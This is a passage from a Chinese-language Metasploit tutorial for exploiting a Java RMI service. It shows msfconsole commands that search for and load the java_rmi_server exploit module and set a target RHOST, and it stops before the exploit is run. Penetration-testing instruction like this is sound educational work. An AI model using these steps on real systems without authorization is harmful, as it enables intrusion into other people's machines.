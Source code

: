 The Java RMI service running on the victim.

### **第六步**:在 msfconsole 中搜索&使用模块。

```
msf> search java_rmi
msf> info exploit/multi/misc/java_rmi_server
msf> use exploit/multi/misc/java_rmi_server
```

[![msfconsole](img//a99c9dae99871ad1a2e036cdabb80760.png)](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-3/)

Searching for matching module

[![msfconsole](img//9bb1b0bddf485ca62a38893b36a9860f.png)](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-4/)

using the module

现在你可以看到提示已经改变了。我们可以通过以下方式查看选项

```
>show options
```

设置 RHOST，它是运行易受攻击服务的目标。

```
set RHOST 192.168.0.104
```

记住设置所有具有“要求是”值的选项。请参见选项表。还要检查 RPORT 是否也正确。检查 nmap 结果&当前设置的端口，看看是否匹配。
